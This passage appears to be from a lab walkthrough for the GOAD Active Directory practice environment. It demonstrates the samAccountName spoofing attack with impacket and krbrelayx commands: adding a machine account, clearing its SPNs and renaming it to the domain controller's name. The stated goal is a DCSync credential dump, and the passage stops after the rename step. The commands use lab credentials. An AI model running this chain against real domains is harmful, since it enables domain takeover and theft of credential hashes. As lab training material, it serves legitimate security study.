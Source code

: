 
### Prepare 

- getST is now part of the normal impacket installation
- we need to install renameMachin.py

go to the pull request
```
https://github.com/fortra/impacket/pull/1224/commits/b4fbcf9196e9b6098edae0ae7794005d2e138ccd
```
can copy past the code into a file named renameMachine.py and you are good to go


### Exploit

What we will do is add a computer, clear the SPN of that computer, rename computer with the same name as the DC, obtain a TGT for that computer, reset the computer name to his original name, obtain a service ticket with the TGT we get previously and finally dcsync :)

- Add a new computer
```
impacket-addcomputer -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
```
![screenshot](pics/addcomputer.png)


- Clear the SPNs of our new computer (with dirkjan [krbrelayx](https://github.com/dirkjanm/krbrelayx) tool addspn)
```
addspn.py --clear -t 'samaccountname$' -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' 'winterfell.north.sevenkingdoms.local'
```
![screenshot](pics/addspn.png)
- Rename the computer (computer -> DC)
```
python renameMachine.py -current-name 'samaccountname$' -new-name 'winterfell' -dc-ip 'winterfell.north.sevenkingdoms.local' north.sevenkingdoms.local/jon.snow:iknownothing
```
![screenshot](pics/renameDC.png)
